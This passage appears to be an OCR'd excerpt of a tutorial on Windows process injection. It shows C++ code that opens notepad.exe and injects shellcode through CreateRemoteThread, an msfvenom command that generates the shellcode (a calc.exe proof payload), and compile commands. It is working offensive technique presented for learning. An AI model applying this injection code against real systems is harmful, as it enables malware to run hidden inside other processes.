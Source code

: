 ```cpp
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    CloseHandle(hProc);
    printf("CreateRemoteThread %d\n", GetLastError());
    return -1;
}

int main() {
    int pid = 0;
    HANDLE hProc = NULL;
    char procName[] = "notepad.exe";
    // getting the pid of notepad.exe
    pid = getPidByName(procName);

    if (pid) {

        // Open the target process, if success it will return the handle to the specified process
        hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

        if (hProc != NULL) {
            printf("Injecting to PID: %i\n", pid);
            inject(hProc);
            printf("lasterr: %d\n", GetLastError());
            CloseHandle(hProc);
        }
    } else {
        printf("process [%s] not found", procName);
    }
    return 0;
}

```

some notes:

* shellcode that I used: `msfvenom -p windows/x64/exec CMD='calc.exe' EXITFUNC=none -f c -v shellcode`
* I ran everything in 64bit mode (maybe I should have told it earlier, nah...)
* compiling:

```
# in linux with the help of mingw-w64 (for ubuntu)
x86_64-w64-mingw32-g++ injection.cpp -o inj ection.exe
# or in powershell, but make sure that you are compiling in 64bit mode (just check if there is PE..L, if so, then you should do something and compile it in 64bit :> )
# if you choose some program that runs in 64bit mode, you should put the shellcode in the same architecture and compile the whole executable in the same way
g++ injection.cpp -o injection.exe
```

* how I list processes and find PID by name: link
